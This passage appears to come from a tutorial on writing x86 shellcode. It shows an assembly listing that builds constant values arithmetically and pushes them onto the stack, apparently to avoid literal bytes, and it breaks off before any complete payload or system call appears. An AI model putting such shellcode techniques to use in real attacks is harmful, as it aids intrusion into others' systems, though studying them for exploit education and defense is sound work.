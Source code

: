 ```console
  17:    90                       nop
```

Our full shellcode becomes:

```assembly
xor    ecx,ecx
mul    ecx
push   ecx
nop

xor eax, eax
xor ebx, ebx
mov al, 17
mov bl, 3
mul ebx
mul ebx
mov bl, 2
mul ebx
shr ebx, 1
add eax, ebx
mov bl, 2
mul ebx
mul ebx
shr ebx, 1
add eax, ebx
mov bl, 2
mul ebx
shr ebx, 1
add eax, ebx
mov bl, 17
mul ebx
mov bl, 2
mul ebx
mul ebx
shr ebx, 1
add eax, ebx
push eax
nop
xor eax, eax
mov al, 127
mov bl, 23
mul ebx
mov bl, 2
mul ebx
shr ebx, 1
add eax, ebx
mov bl, 2
mul ebx
pop ebx
nop
mul ebx
push eax
nop

xor eax, eax
xor ebx, ebx
mov al, 47
mul eax
mov bl, 2
mul ebx
mul ebx
shr ebx, 1
add eax, ebx
```